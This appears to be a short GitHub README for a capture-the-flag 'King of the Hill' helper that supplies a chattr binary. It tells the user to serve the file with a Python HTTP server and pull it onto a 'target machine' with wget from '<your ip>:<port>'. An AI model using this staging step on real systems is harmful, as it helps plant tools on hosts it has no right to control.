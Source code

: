 # Chattr-for-Koth
the chattr for koth

I made this repository with only the file of Chattr,

install the repository for your machine... and if you want to delete the README.md, Feel free :)

# How to use:

You must open a WebServer using:
```sudo python3 -m http.server```


Then you use on the target machine:
```wget http://<your ip>:<port>/Chattr-for-Koth-file```
  
![allison-frog](https://user-images.githubusercontent.com/68440743/234157699-4065d1ed-518b-4878-8bd4-bfd834cf8f82.gif)
